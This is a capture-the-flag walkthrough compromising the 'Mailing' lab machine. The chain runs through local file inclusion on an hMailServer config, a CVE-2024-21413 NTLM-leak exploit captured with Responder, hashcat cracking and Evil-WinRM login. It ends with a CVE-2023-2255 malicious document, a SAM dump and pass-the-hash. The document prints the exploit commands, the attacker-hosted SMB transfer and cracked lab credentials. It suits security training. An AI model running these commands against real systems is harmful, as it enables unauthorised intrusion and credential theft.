The engagement started with a port scan against the target host. Due to the scan taking a long time, the scope was reduced to speed up the process.
nmap 10.10.11.14 -Pn -sC -sV -A -T4 -oN scan.txtAfter identifying the available services, attention was shifted to the web application. By inspecting the source code, it was observed that a PHP download function was being used to retrieve files from the server, which indicated a Local File Inclusion vulnerability.
Using this functionality, sensitive configuration files were accessed directly from the system.
http://mailing.htb/download.php?file=../../../Program+Files(x86)/hMailServer/Bin/hMailServer.INI
Inside the retrieved configuration files, the password hash for the default administrator account was discovered.
Administrator password hash: 841bb5acfa6779ae432fd7a4e6600ba7

Using hash-identifier, it was determined that the hash format corresponded to MD5.

Further research revealed that the system was vulnerable to CVE-2024-21413, and valid SMTP credentials were already available.
The vulnerability was exploited using a public proof-of-concept script. The attack leveraged SMTP authentication to trigger an outbound authentication request.
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\<ip>' --subject XDThe authentication attempt was captured using Responder running on the attacker machine.
sudo responder -I tun0Captured hashes were stored in the Responder logs directory.
/usr/share/responder/logs

The captured hash was cracked using hashcat, revealing the plaintext password for the user maya.
hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt
With valid credentials, SMB enumeration was performed to identify accessible shares.
smbclient -L 10.10.11.14 -U 'maya'
A remote session was established using Evil-WinRM with the compromised credentials.
evil-winrm -i 10.10.11.14 -u 'maya' -p m4y4ngs4ri
User enumeration on the system confirmed the presence of the Administrator account.

Further analysis showed that privilege escalation was possible by abusing CVE-2023-2255.

A malicious document was generated to add the user maya to the local Administrators group upon execution.
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'exploit.odt'An SMB server was started on the attacker machine to transfer the exploit file.
impacket-smbserver mailing `pwd` -smb2supportThe exploit document was copied into the target system under the Important Documents directory.

net use \\<IP>\mailing
copy \\<IP>\mailing\exploit.odt
After execution, the group membership was verified, confirming that maya had been added to the local Administrators group.
net user maya
With administrative privileges, the SAM database was dumped using crackmapexec.
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
Finally, authentication was performed as the local administrator using pass-the-hash, achieving full system compromise.
impacket-wmiexec localadmin@10.10.11.14 -hashes "<hashes>"